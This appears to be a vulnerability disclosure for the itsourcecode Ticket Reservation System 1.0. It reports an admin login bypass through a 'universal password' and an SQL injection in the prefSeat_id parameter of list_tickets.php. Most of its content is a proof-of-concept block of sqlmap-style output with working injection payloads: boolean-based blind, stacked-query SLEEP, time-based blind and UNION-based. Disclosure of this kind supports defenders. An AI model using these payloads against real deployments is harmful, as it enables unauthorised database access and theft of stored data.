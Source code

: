 # Vendor

itsourcecode

# Product

Ticket Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/09/qrcode.zip

# Description

By exploiting a universal password vulnerability to log into the admin backend, an SQL injection vulnerability occurs on the "list_tickets.php" page due to the lack of strict filtering of the "prefSeat_id" parameter.
<img width="1093" alt="image" src="https://github.com/user-attachments/assets/f3a4fcac-e885-4f83-9c5c-e9dd33c70771">


# Poc
```
Parameter: prefSeat_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: prefSeat_id=' AND 9743=(SELECT (CASE WHEN (9743=9743) THEN 9743 ELSE (SELECT 7512 UNION SELECT 5594) END))-- -

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: prefSeat_id=';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prefSeat_id=' AND (SELECT 2268 FROM (SELECT(SLEEP(5)))jjeF)-- bjxX

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: prefSeat_id=' UNION ALL SELECT NULL,NULL,CONCAT(0x7178626b71,0x4f45474f5268585a684e556354784d73584c486f4e6f42624e4e4d62774971414d41497569624e46,0x71627a6271),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

